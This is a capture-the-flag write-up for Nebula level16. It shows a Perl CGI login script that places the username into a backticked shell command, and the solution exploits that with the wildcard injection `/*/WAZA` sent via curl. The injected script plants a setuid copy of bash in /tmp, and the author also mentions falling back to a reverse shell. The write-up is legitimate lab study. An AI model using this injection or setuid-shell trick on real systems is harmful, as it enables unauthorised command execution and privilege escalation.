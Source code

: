 # level16

## Challenge info

There is a perl script running on port 1616. <br>

To do this level, log in as the level16 account with the password level16. Files for this level can be found in /home/flag16. <br>

```
#!/usr/bin/env perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub login {
  $username = $_[0];
  $password = $_[1];

  $username =~ tr/a-z/A-Z/; # conver to uppercase
  $username =~ s/\s.*//;        # strip everything after a space

  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
  foreach $line (@output) {
      ($usr, $pw) = split(/:/, $line);
  

      if($pw =~ $password) {
          return 1;
      }
  }

  return 0;
}

sub htmlz {
  print("<html><head><title>Login resuls</title></head><body>");
  if($_[0] == 1) {
      print("Your login was accepted<br/>");
  } else {
      print("Your login failed<br/>");
  }    
  print("Would you like a cookie?<br/><br/></body></html>\n");
}

htmlz(login(param("username"), param("password")));
```


## Solution

I went ahead and checked the file <b> thttpd.conf </b> and the lines below catched my attention

```
# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
# "/cgi-bin/*". See thttpd(8) for details.
cgipat=**.cgi
```

With further search, did not found any vulnerability related to this <br>

One thing that i did not knew is that it is possible to execute commands as such
```
file path: /tmp/FOO

cmd: /*/FOO <- Executes foo if no
```

That command (to execute FOO), already satisfies both regexes
```
$username =~ tr/a-z/A-Z/; # conver to uppercase
$username =~ s/\s.*//;        # strip everything after a space
```

Now, and since the script will run a command line (as shown below), when the username is used it will execute the program
```
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
```

Lets create a simple bash script that copies the bash binary with flag16 perms and +s flag
```
#!/bin/bash

cp /bin/bash /tmp/owned
chmod +s /tmp/owned
```

Now for the command to execute we need to wrap the command in <b>`</b> ...
```
Injection: `/*/WAZA`
Request: curl "http://IP_VM:1616/login.cgi?username=`/*/WAZA`&password=owned"

Cmd (VM): ls -la /tmp

-rwsr-sr-x 1 flag16  flag16  916692 2020-12-11 09:58 owned

cmd (VM): /tmp/owned -p
cmd (VM): whoami && id

flag16
uid=983(flag16) gid=983(flag16) groups=983(flag16)
```

Disclaimer: the fucking bash cp was not working for some stupid reason, reverse shell it and done <br>
## Flag

```
You have successfully executed getflag on a target account
```

